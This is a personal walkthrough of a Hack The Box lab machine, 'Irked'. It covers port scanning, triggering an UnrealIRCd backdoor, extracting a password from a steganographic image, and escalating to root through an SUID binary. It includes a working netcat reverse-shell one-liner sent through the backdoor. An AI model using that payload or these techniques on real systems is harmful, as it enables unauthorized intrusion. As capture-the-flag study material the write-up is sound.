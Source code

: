 # Enumerate

## Scan

* full port scan shows a handful of ports
* Detailed shows:

```
pat@kali:~/Desktop/Cert_Prep/htb/Linux/Irked$ sudo nmap -p 22,80,111,6697,8067,34830,65534 -sC -sV -O  10.10.10.117 --max-retries=3 -oN nmap_scan.txt
[sudo] password for pat: 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-06 12:16 EDT
Stats: 0:00:23 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 85.71% done; ETC: 12:17 (0:00:02 remaining)
Nmap scan report for 10.10.10.117
Host is up (0.028s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519) 
80/tcp    open  http    Apache httpd 2.4.10 ((Debian)) 
|_http-server-header: Apache/2.4.10 (Debian) 
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)            
| rpcinfo:                 
|   program version    port/proto  service 
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind           
|   100000  3,4          111/tcp6  rpcbind                                                   
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34830/tcp   status 
|   100024  1          40278/tcp6  status
|   100024  1          46929/udp6  status
|_  100024  1          54340/udp   status 
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
34830/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.8 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 88.48 seconds
```

## Service Enumeration

* Webpage just looks like a shout out to there being IRC since that's not standard ports. 
* RPCInfo. Same as if I do port 111

```
pat@kali:~/Desktop/Cert_Prep/htb/Linux/Irked$ rpcinfo -n 34830 10.10.10.117
   program version netid     address                service    owner
    100000    4    tcp6      ::.0.111               portmapper superuser
    100000    3    tcp6      ::.0.111               portmapper superuser
    100000    4    udp6      ::.0.111               portmapper superuser
    100000    3    udp6      ::.0.111               portmapper superuser
    100000    4    tcp       0.0.0.0.0.111          portmapper superuser
    100000    3    tcp       0.0.0.0.0.111          portmapper superuser
    100000    2    tcp       0.0.0.0.0.111          portmapper superuser
    100000    4    udp       0.0.0.0.0.111          portmapper superuser
    100000    3    udp       0.0.0.0.0.111          portmapper superuser
    100000    2    udp       0.0.0.0.0.111          portmapper superuser
    100000    4    local     /run/rpcbind.sock      portmapper superuser
    100000    3    local     /run/rpcbind.sock      portmapper superuser
    100024    1    udp       0.0.0.0.231.67         status     107
    100024    1    tcp       0.0.0.0.187.172        status     107
    100024    1    udp6      ::.236.150             status     107
    100024    1    tcp6      ::.209.206             status     107
```



* Unreal on 6697
* Use irssi and then connect to get the unreal version

```
irssi -> /connect 10.10.10.117 6697
```

* Version 3281
* that version has a backdoor vuln. 

# User Access

* use 13853.pl
* For some reason it's not obvious what it's going to connect to, just change the payload 2 to be a reverse shell that I want. And then for some reason it doesn't work anyway. Just use my own. 

```
pat@kali:~/Desktop/Cert_Prep/htb/Linux/Irked$ telnet 10.10.10.117 6697
Trying 10.10.10.117...
Connected to 10.10.10.117.
Escape character is '^]'.
:irked.htb NOTICE AUTH :*** Looking up your hostname...
AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 1234 >/tmp/f
```

* Also made a python script to connect and send the info over telnet. 

# Escalation

## IRCD to djmardov

* if I'm stuck, maybe not even supposed to get the ircd first and it's just a troll. 
* Maybe I can brute force rpcclient? 
* Eventually find this:

```
ircd@irked:/home/djmardov$ cat Documents/.backup
cat Documents/.backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

* That doesn't work for su djmardov or ssh
* Not much interesting in linpeas output. 
* Use steghide with that to get something out of the picture on the homepage

```
steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss
wrote extracted data to "pass.txt".
```

* that pass.txt works for ssh, get user flag. 

## djmardov to root

* no sudo -l

* nothing in crontab

* Run linpeas again I guess. 

  * Some stuff about proc 17700 doing sed on all my files? 

  ```
  [+] Readable *_history, .sudo_as_admin_successful, profile, bashrc, httpd.conf, .plan, .htpasswd, .gitconfig, .git-credentials, .git, .svn, .rhosts, hosts.equiv, Dockerfile, docker-compose.yml
  [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#read-sensitive-data       -rw-r--r-- 1 root root 1863 Nov  5  2016 /etc/bash.bashrc 
  -rw-r--r-- 1 root root 3515 Nov  5  2016 /etc/skel/.bashrc
  -rw-r--r-- 1 root root 675 Nov  5  2016 /etc/skel/.profile
  -rw-r--r-- 1 root root 1208 May 27  2017 /etc/w3m/config
  lrwxrwxrwx 1 root root 9 Nov  3  2018 /home/djmardov/.bash_history -> /dev/null
  Looking for possible passwords inside /home/djmardov/.bash_history (limit 100)
  -rw-r--r-- 1 djmardov djmardov 3515 May 11  2018 /home/djmardov/.bashrc
  -rw-r--r-- 1 djmardov djmardov 675 May 11  2018 /home/djmardov/.profile
  -rw-r--r-- 1 ircd ircd 0 May 14  2018 /home/ircd/.bashrc
  -rwxr-xr-x 1 root root 2493 Nov  8  2014 /usr/bin/lft.db
  -rw-r--r-- 1 root root 570 Jan 31  2010 /usr/share/base-files/dot.bashrc
  -rw-r--r-- 1 root root 870 May 15  2012 /usr/share/doc/adduser/examples/adduser.local.conf.examples/bash.bashrc
  -rw-r--r-- 1 root root 1865 May 15  2012 /usr/share/doc/adduser/examples/adduser.local.conf.examples/skel/dot.bashrc
  ```

* There might be a kernel exploit but that's probably not it. 

* Might be this metasploit portmapper thing, I saw somewhere it was running sunRPC? Read writeup since this is only metasploit. Nope

* Didn't notice the SUID binaries from linpeas, but I assume they were there? See lessons.

* Two potential interesting files:

  * chsh - this might be standard? Couldn't do anything with it. 
  * viewuser - this seems to just run a file. Make an executable bash script to return a shell and get root.

# Lessons

* Add a suid binary check to the always things to do. Check any non-standard things. 



